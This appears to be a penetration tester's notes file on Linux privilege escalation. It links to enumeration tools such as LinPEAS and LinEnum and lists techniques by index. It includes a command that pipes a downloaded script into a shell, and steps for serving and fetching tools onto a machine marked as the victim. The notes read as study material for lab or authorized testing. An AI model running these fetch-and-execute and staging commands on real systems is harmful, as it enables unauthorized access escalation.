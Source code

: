 # privesc

INTRO
horizontal privesc
vertical privesc

https://book.hacktricks.xyz/linux-unix/privilege-escalation  (carlosmpolopm)

Linpeas
# From github

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Output to file

./linpeas.sh -a /tmp/linpeas.txt #Victim
less -r /linpeas.txt #Read with colors

linenum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

two ways of uploading:
1- python server then wget
```basic
python3 -m http.server 8000

wget <ip>:<port>/<file>

chmod +x <file.sh>
```
2- copy and paste linenum using Vi or nano , save and add permission

###		INDEX
1.  Basic
2.  Path Variables
3.  Raptor / mysql
4.  weak file permissions
5.  SUDO 
6.  Abusing shell features
7.  Pass & Keys
8.  Mounting Shares
9.  Kernell





### Basic manual enumeration

hostname:
id

